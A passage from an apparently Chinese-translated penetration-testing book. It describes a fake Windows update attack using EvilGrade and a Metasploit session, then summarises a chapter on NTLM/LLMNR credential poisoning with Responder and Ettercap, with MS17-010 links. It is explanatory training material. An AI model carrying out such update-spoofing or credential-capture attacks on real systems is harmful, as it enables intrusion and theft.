我们以 rred 和 Randy Red 的身份登录，所以我们被要求进行 UAC 登录。我们得到了管理员权限，他们登录运行更新。如果用户已经有管理员权限，UAC 框仍然会出现，但你可以像平常一样点击 OK，一切都很好。这让你对 UAC 安全产生了疑问：



文件正在运行，和大多数更新一样，安装更新后系统并没有真正做任何事情。用户回到工作中，认为一切都很好。让我们看看我们的 Kali 盒子上发生了什么。

嗯-看起来我们已经与具有管理员权限的 fflintstone 打开了一个会话。我们在 rred 的账户下，但我们有管理员权限 fflintstone。要与会话交互，请使用以下命令：

```
sessions -i 1 # Where 1 is the active session number.  
```



这样做的结果，就像这里的消息所说的那样，是这样的：


在我们运行的 EvilGrade 终端中，我们可以看到受害者机器与我们的恶意服务器的交互。在下面的截图中，你可以看到恶意网页被上传到受害者：



所以你知道了-更新可能并不像你想象的那么安全。始终从安全网络更新。再次，看一下可以使用这种方法轻松攻击的系统和应用程序的列表。

请注意，Windows 安全方法，如 UAC，对于阻止这种攻击没有起作用。对于系统来说，它看起来是在回家和妈妈交谈，而妈妈绝不会给你喂任何坏东西。

对于 Linux 系统，在 RedHat 系统上使用 apt-get 或 yum 时，这种攻击将失败。是的，你可以欺骗存储库站点，但当更新（实际上是我们的有效负载）被下载时，它将无法安装，因为所有存储库包都是用 GPG 密钥签名的。由于我们的虚假更新没有签名，我们的攻击失败了。对于使用 GPG 和公钥/私钥的方法有一些值得说的地方。

# 总结

在本章中，你已经学会了 NTLM 和 LLMR 协议的工作原理及其固有的弱点。你已经学会了如何毒害网络流量以捕获用户凭据。

你还学会了如何同时使用许多工具，如 Responder 和 Etthercap，来利用你的目标系统。最后，我们学会了如何欺骗更新服务，如 Windows Update，并利用这个服务来攻击系统。

# 进一步阅读

Responder 的 GitHub 可以在这里找到：[`github.com/SpiderLabs/Responder`](https://github.com/SpiderLabs/Responder)

Ettecap 项目页面可以在这里找到：[`www.ettercap-project.org/`](https://www.ettercap-project.org/)

有关 MS17-010（EternalBlue）漏洞的更多信息可以在以下链接找到：

+   [`cvedetails.com/cve/CVE-2017-0143/`](https://cvedetails.com/cve/CVE-2017-0143/)

+   [`cvedetails.com/cve/CVE-2017-0144/`](https://cvedetails.com/cve/CVE-2017-0144/)

+   [`cvedetails.com/cve/CVE-2017-0145/`](https://cvedetails.com/cve/CVE-2017-0145/)

+   [`cvedetails.com/cve/CVE-2017-0146/`](https://cvedetails.com/cve/CVE-2017-0146/)

+   [`cvedetails.com/cve/CVE-2017-0147/`](https://cvedetails.com/cve/CVE-2017-0147/)

+   [`cvedetails.com/cve/CVE-2017-0148/`](https://cvedetails.com/cve/CVE-2017-0148/)

+   [`technet.microsoft.com/en-us/library/security/MS17-010`](https://technet.microsoft.com/en-us/library/security/MS17-010)

+   [`zerosum0x0.blogspot.com/2017/04/doublepulsar-initial-smb-backdoor-ring.html`](https://zerosum0x0.blogspot.com/2017/04/doublepulsar-initial-smb-backdoor-ring.html)

+   [`github.com/countercept/doublepulsar-detection-script`](https://github.com/countercept/doublepulsar-detection-script)

+   [`technet.microsoft.com/en-us/library/security/ms17-010.aspx`](https://technet.microsoft.com/en-us/library/security/ms17-010.aspx)

作者在 SMB 欺骗和如何解决问题方面的更多信息可以在这里找到：[`www.boweaver.com/security/ntlm.php`](http://www.boweaver.com/security/ntlm.php)
